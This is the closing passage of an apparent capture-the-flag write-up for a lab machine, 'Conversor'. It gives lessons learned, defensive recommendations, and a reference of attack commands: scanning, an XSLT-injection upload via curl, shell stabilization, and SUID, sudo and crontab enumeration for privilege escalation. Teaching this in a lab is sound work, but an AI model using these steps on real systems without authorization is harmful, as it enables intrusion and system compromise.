   - Never trust user-supplied XSLT files

2. **Cron Jobs Are Attack Vectors**
   - Writable directories + cron = RCE
   - Always check script directories for cron jobs
   - Principle of least privilege for cron users

3. **Source Code Disclosure Is Critical**
   - Always check /about, /download, /.git
   - Source code reveals vulnerabilities
   - Developers accidentally expose secrets

4. **Password Storage**
   - MD5 is broken - use bcrypt, argon2
   - Always salt your hashes
   - Never store passwords in plain text

5. **SUID Binaries Are Powerful**
   - Check for SUID files: `find / -perm -4000 2>/dev/null`
   - needrestart vulnerability shows importance of environment sanitization
   - Always validate PYTHONPATH, LD_PRELOAD, etc. in privileged programs

### Security Recommendations

**For Developers:**
1. Disable EXSLT extensions or whitelist safe operations
2. Use proper password hashing (bcrypt, argon2)
3. Never expose source code on production servers
4. Sanitize environment variables in privileged programs
5. Run cron jobs with minimal permissions

**For Penetration Testers:**
1. Always download and analyze source code if available
2. Check for cron jobs in config files
3. Test for XSLT injection in XML processors
4. Enumerate sudo permissions immediately after initial access
5. Check for CVEs in privileged binaries

### Commands Reference

**Reconnaissance:**
```bash
nmap -sC -sV -oA nmap/scan <IP>
gobuster dir -u <URL> -w <wordlist>
```

**XSLT Exploitation:**
```bash
curl -X POST <URL>/convert -F "xml_file=@file.xml" -F "xslt_file=@exploit.xslt"
```

**Shell Stabilization:**
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

**Privilege Escalation Checks:**
```bash
sudo -l
find / -perm -4000 2>/dev/null
cat /etc/crontab
```


---

## Conclusion

Conversor is an excellent beginner-friendly machine that teaches:
- Web application enumeration
- XSLT injection exploitation
- Cron job abuse for persistence
- Linux privilege escalation via CVE exploitation

The attack chain is logical and realistic, demonstrating how multiple small vulnerabilities chain together for full system compromise.

---

## Additional Resources

- [XSLT Injection](https://docs.stackhawk.com/vulnerabilities/90017/)
- [CVE-2024-48990 Details](https://nvd.nist.gov/vuln/detail/CVE-2024-48990)
- [GTFOBins](https://gtfobins.github.io/) - Unix binaries exploitation
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

---
